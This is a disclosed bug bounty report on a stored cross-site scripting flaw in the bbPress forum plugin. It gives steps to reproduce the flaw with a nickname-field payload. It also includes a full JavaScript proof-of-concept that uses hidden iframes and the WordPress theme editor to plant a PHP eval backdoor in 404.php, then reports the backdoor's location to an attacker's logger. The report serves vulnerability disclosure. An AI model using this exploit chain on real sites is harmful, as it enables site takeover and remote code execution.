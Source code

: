 # [bbPress] Stored XSS in any forum post.

## Report Details
- **Report ID**: 151117
- **URL**: https://hackerone.com/reports/151117
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-07-13T12:38:02.036Z
- **Disclosed**: 2016-09-01T09:19:09.900Z

## Reporter
- **Username**: psych0tr1a
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: automattic

## Vulnerability Information
#__Intro:__
Encouraged by the success of cure53 and their reward, i start the research plugins in your scope. And almost immediately i found critical Stored XSS, which of course leeds to privelege escalation or PHP code execution. This vulnerability doesnt requres "special" preveleges like [CVE-2015-5622](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5622 "CVE-2015-5622"). To demonstrate how this vulnerability elementary for expluatation i write a XSS to Shell exploit.


#__Steps to reproduce the XSS:__
1.  Send any message on topic or start new topic.
2.  Edit this message.
3.  Open http://localhost/wordpress/?bbp_user=%YOUR_USER_ID%&edit=1
4.  Edit your "Nickname" to:

		user1"onmouseover="alert(1);remove()"style="position:absolute;left:0;top:0;margin-top:-100%;margin-left:-100%;width:5000px;height:5000px"

5.  Change your "Display Name" to new "Nickname", save and return to thread with your message.

#__Screenshot:__
{F10472} (In attachment)

#__XSS to RCE PoC exploit:__

		var yourServer = "%Path to your logger%"

		var payload = "<?php eval($_GET['wp']); ?>"+"\n";
		SitePath = document.head.innerHTML.match(/rel=\"pingback\" href=\"(.*?)\/xmlrpc.php\"/m)[1]
		function eas(){ // edit and save
			ov = window.frames.win404.document.getElementById('newcontent').value
			window.frames.win404.document.getElementById('newcontent').value = payload + ov
			document.getElementsByName('win404')[0].setAttribute("onload","");
			window.frames.win404.document.getElementsByName('submit')[0].click()
			((new Image).src=yourServer+"?message=Check your backdoor here: "+SitePath+"/wp-content/themes/"+themeName+"/404.php?wp=phpinfo();")
		}

		function pao(){ // parse and open
			ewin = window.frames.editor.contentWindow || window.frames.contentDocument
			url404 = unescape(ewin.document.getElementById('templateside').getElementsByTagName('a')[0].href)
		        filepar = url404.match(/\?file\=(.*?)\&/m)[1]
			if(filepar.length>10){
				themeName = url404.match(/file\=\/themes\/(.*?)\//m)[1]
			}
			else{
				themeName = url404.match(/theme\=(.*?)$/m)[1]
			}
			var win404 = document.createElement("iframe");
			win404.style.opacity=0
			win404.name = 'win404';
			win404.src = url404
			win404.setAttribute("onload","eas();this.onload=''");
			document.body.appendChild(win404);
		}
		
		var editor = document.createElement("iframe");
		editor.style.opacity=0
		editor.name = 'editor';
		editor.src = SitePath+"/wp-admin/theme-editor.php";
		editor.setAttribute("onload","pao();this.onload='';");
		document.body.appendChild(editor);

Best regards!

## Attachments
- bbpress.PNG
